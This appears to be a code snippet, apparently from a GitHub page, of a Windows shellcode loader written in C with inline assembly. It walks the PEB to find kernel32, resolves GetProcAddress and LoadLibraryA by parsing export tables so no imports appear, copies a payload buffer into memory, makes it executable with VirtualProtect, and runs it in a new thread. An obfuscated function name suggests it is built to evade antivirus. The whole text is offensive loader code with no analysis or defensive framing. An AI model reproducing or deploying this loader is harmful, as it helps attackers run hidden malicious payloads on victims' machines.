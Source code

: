 ```C
__declspec(naked) PDWORD GerKernelBase()
{
	__asm
	{
		mov eax, fs: [0x30] ;
		mov eax, [eax + 0x0c];
		mov eax, [eax + 0x14];
		mov eax, [eax];
		mov eax, [eax];
		mov eax, [eax + 0x10];
		ret
	}
}

DWORD GetFunAddr(DWORD* DllBase, char* FunName)
{
	PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)DllBase;
	PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)(pDos->e_lfanew + (DWORD)pDos);
	PIMAGE_OPTIONAL_HEADER pOt = (PIMAGE_OPTIONAL_HEADER)&pNt->OptionalHeader;
	PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)(pOt->DataDirectory[0].VirtualAddress + (DWORD)DllBase);

	PDWORD pNameAddr = (PDWORD)(pExport->AddressOfNames + (DWORD)DllBase);
	PWORD pNameOrdAddr = (PWORD)(pExport->AddressOfNameOrdinals + (DWORD)DllBase);
	PDWORD pFunAddr = (PDWORD)(pExport->AddressOfFunctions + (DWORD)DllBase);
	for (int i = 0; i < pExport->NumberOfNames; i++)
	{
		char* Name = (char*)(pNameAddr[i] + (DWORD)DllBase);
		if (!strcmp(Name, FunName))
		{
			WORD NameOrdinal = pNameOrdAddr[i];
			return pFunAddr[NameOrdinal] + (DWORD)DllBase;
		}
	}
}

/*获取指定函数地址*/
FARPROC GetApi(char* LibraryName, char* FuncName)
{
	PDWORD KernerBase = GerKernelBase();
	M_GetProcAddress MyGetProcess = (M_GetProcAddress)GetFunAddr(KernerBase, "GetProcAddress");
	M_LoadLibraryA MyLoadLibraryA = (M_LoadLibraryA)GetFunAddr(KernerBase, "LoadLibraryA");
	return MyGetProcess(MyLoadLibraryA(LibraryName), FuncName);
}

void cr34te_thr34d_dynamic_2() {
    //#include <windows.h>
#include <string.h>
    LPVOID lpvAddr = (LPVOID)malloc(1024);
    memset(lpvAddr, '\x00', 1024);
    memcpy(lpvAddr, raw_buf, sizeof(raw_buf));
    DWORD pa = 0x01;
	LPVOID mVirtualProtect = (LPVOID)GetApi("kernel32.dll", "VirtualProtect");
    mVirtualProtect(lpvAddr, sizeof(raw_buf), PAGE_EXECUTE_READWRITE, &pa);//PAGE_EXECUTE
    if (lpvAddr != NULL) {
        HANDLE s;
        s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, raw_buf, 0, 0);
        WaitForSingleObject(s, INFINITE);
    }
}
```
